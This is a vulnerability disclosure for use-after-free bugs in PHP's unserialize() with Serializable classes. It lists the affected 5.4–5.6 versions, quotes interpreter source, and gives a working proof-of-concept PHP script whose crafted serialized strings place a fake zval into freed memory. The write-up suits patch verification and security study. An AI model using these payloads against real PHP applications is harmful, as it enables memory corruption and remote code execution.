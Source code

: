 #Use After Free Vulnerabilities in unserialize()

Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.7.31 - Release Date: 2015.9.4

> Multiple use-after-free vulnerabilities were discovered in unserialize() with Serializable class that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.13  
Affected is PHP 5.5 < 5.5.29  
Affected is PHP 5.4 < 5.4.45

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
```
	if (ce->unserialize == NULL) {
		zend_error(E_WARNING, "Class %s has no unserializer", ZSTR_VAL(ce->name));
		object_init_ex(rval, ce);
	} else if (ce->unserialize(rval, ce, (const unsigned char*)*p, datalen, (zend_unserialize_data *)var_hash) != SUCCESS) {
		return 0;
	}

	(*p) += datalen;

	return finish_nested_data(UNSERIALIZE_PASSTHRU);
```

The unserialize() with Serializable class lead to various problems.

i) Free the memory via crafted Serializable class

```
<?php

class obj implements Serializable {
    var $data;
    function serialize() {
        return serialize($this->data);
    }
    function unserialize($data) {
        $this->data = unserialize($data);
        $this->data = 1;
    }
}

?>
```

ii) Free the memory via the process_nested_data() with a invalid serialized string

```
static inline int process_nested_data(UNSERIALIZE_PARAMETER, HashTable *ht, long elements, int objprops)
{
	while (elements-- > 0) {
		zval *key, *data, **old_data;

		...

		ALLOC_INIT_ZVAL(data);

		if (!php_var_unserialize(&data, p, max, var_hash TSRMLS_CC)) {
			zval_dtor(key);
			FREE_ZVAL(key);
			zval_dtor(data);
			FREE_ZVAL(data);  <===  free the memory
			return 0;
		}
```

iii) Free the memory via the var_push_dtor_no_addref() with the var_destroy().

```
PHPAPI void var_destroy(php_unserialize_data_t *var_hashx)
{

	...
	
	while (var_hash) {
		for (i = 0; i < var_hash->used_slots; i++) {
			zval_ptr_dtor(&var_hash->data[i]);  <===  free the memory
		}
	
	...
	
PHPAPI int php_var_unserialize(UNSERIALIZE_PARAMETER)
{

	...
	
	if (*rval != NULL) {
		var_push_dtor_no_addref(var_hash, rval);
	}
	*rval = *rval_ref;
```

We can create ZVAL and free it via Serializable::unserialize. However the unserialize() will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.4.43.

```
<?php

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

// i) 
//$inner = 'a:1:{i:0;i:1;}';
//$exploit = 'a:2:{i:0;C:3:"obj":'.strlen($inner).':{'.$inner.'}i:1;R:3;}';
// ii)
$inner = 'a:2:{i:0;i:1;i:1;i:2';
$exploit = 'a:2:{i:0;C:3:"obj":'.strlen($inner).':{'.$inner.'}i:1;R:5;}';
// iii)
//$inner = 'r:1;';
//$exploit = 'a:1:{i:0;C:3:"obj":'.strlen($inner).':{'.$inner.'}}';

$data = unserialize($exploit);

for ($i = 0; $i < 5; $i++) {
    $v[$i] = $fakezval.$i;
}

var_dump($data);

function ptr2str($ptr)
{
	$out = "";
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

class obj implements Serializable {
	var $data;
	function serialize() {
		return serialize($this->data);
	}
	function unserialize($data) {
        $this->data = unserialize($data);
//		i)
//		$this->data = '1';
	}
}

?>
```

Test the PoC on the command line:

```
$ php uafpoc.php
array(2) {
  [0]=>
  object(obj)#1 (1) {
    ["data"]=>
    bool(false)
  }
  [1]=>
  int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
}
```
